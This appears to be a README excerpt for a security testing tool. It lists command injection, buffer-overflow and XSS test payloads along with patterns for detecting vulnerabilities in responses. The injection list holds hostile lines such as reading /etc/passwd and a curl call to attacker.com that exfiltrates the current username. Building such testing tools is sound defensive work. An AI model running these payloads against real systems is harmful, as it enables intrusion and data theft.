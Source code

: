 ### Command Injection Payloads
```bash
; ls -la                          % Directory listing
`whoami`                          % User identification
$(id)                             % Command substitution
| cat /etc/passwd                 % File disclosure
&& curl http://attacker.com/$(whoami)  % Data exfiltration
```

### Buffer Overflow Payloads
```
Binary payloads of varying sizes:
- 1KB:   Standard buffer tests
- 8KB:   Stack overflow attempts
- 64KB:  Large buffer tests
- 1MB:   Memory exhaustion
- 16MB:  Extreme memory stress tests
```

### XSS Payloads
```javascript
<script>alert('XSS')</script>                    % Basic script injection
<img src=x onerror=alert('XSS')>                % Image-based XSS
<svg onload=alert('XSS')>                       % SVG-based XSS
<iframe src=javascript:alert('XSS')></iframe>   % Frame-based XSS
javascript:alert('XSS')                         % JavaScript protocol
```

## 📊 Vulnerability Detection

### Security Indicators

The system automatically detects various security indicators in responses:

#### Database Errors
- Oracle: `ORA-\d+` patterns
- MySQL: `Warning: mysql_` patterns  
- PostgreSQL: `Warning: pg_` patterns
- SQL Server: `Microsoft SQL Server` patterns

#### System Information Disclosure
- File contents: `/etc/passwd`, `root:x:0:0` patterns
- System commands: `uid=\d+`, shell access indicators
- Stack traces: Exception and error stack information
- Version information: Software and system version disclosure

#### Authentication Bypass Indicators
- Access control bypasses
- Authentication failures
- Session manipulation success
- Privilege escalation evidence

